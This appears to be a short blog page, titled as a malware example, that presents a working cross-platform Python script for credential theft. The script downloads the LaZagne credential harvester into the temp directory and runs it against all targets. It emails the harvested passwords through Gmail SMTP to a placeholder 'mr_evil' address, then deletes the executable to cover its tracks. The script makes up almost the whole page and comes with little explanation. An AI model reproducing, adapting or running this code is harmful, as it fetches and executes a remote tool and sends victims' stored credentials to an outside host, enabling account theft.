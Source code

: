 ```yaml
---
title: "Malware example: credential harvesting"
date: 2019-02-27

client: ["malware",]
menu: "main"
---
```


Simple example of a cross platform malware program.  

It downloads the LaZagne credentials harvester (https://github.com/AlessandroZ/LaZagne) to the os specific temp directory, runs it using the 'all' option and send the result via email.  

```python
#!/usr/bin/env python

import requests, subprocess, smtplib, os, tempfile


def download(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)


def send_mail(email, password, message):
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email,password)
    server.sendmail(email, email, message)
    server.quit()


temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
download("https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.2/lazagne.exe")
result = subprocess.check_output("lazagne.exe all", shell=True)
send_mail("mr_evil@gmail.com", "password", result)
os.remove("lazagne.exe")
```
